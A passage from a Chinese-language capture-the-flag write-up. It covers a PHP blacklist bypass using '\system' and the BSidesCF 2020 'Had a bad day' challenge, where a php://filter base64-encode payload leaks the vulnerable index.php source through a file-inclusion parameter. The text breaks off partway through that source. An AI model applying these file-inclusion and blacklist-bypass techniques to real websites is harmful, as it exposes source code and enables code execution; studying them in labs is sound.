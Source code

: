 8、然后后面的就是查找flag文件的位置、读取flag信息，结果如下：

![img](https://img2022.cnblogs.com/blog/2834847/202208/2834847-20220830230045055-616538494.png)

![img](https://img2022.cnblogs.com/blog/2834847/202208/2834847-20220830225915975-872445652.png)

9、\system可以绕过黑名单的原因：php内的" \ "在做代码执行的时候，会识别特殊字符串。

## [BSidesCF 2020]Had a bad day

![image-20240428194718770](C:\Users\86182\assets\image-20240428194718770.png)

抓包发现是get的请求有个注入点，可以进行修改，但是发现只能写含有woofers and meowers的单词

![image-20240428194915353](C:\Users\86182\assets\image-20240428194915353.png)

再次写woofers.php试试

![image-20240428195136220](C:\Users\86182\assets\image-20240428195136220.png)

发现php双写了，就可以确定加了一个.php文件

后缀有.php的可以想到php伪协议php://filter/read=convert.base64-encode/resourse=index.php(这次将后缀删掉)

获取源码：

<html>
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="description" content="Images that spark joy">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0">
    <title>Had a bad day?</title>
    <link rel="stylesheet" href="css/material.min.css">
    <link rel="stylesheet" href="css/style.css">
  </head>
  <body>
    <div class="page-layout mdl-layout mdl-layout--fixed-header mdl-js-layout mdl-color--grey-100">
      <header class="page-header mdl-layout__header mdl-layout__header--scroll mdl-color--grey-100 mdl-color-text--grey-800">
        <div class="mdl-layout__header-row">
          <span class="mdl-layout-title">Had a bad day?</span>
          <div class="mdl-layout-spacer"></div>
        <div>
      </header>
      <div class="page-ribbon"></div>
      <main class="page-main mdl-layout__content">
        <div class="page-container mdl-grid">
          <div class="mdl-cell mdl-cell--2-col mdl-cell--hide-tablet mdl-cell--hide-phone"></div>
          <div class="page-content mdl-color--white mdl-shadow--4dp content mdl-color-text--grey-800 mdl-cell mdl-cell--8-col">
            <div class="page-crumbs mdl-color-text--grey-500">
            </div>
            <h3>Cheer up!</h3>
              <p>
                Did you have a bad day? Did things not go your way today? Are you feeling down? Pick an option and let the adorable images cheer you up!
              </p>
              <div class="page-include">
              <?php
				$file = $_GET['category'];
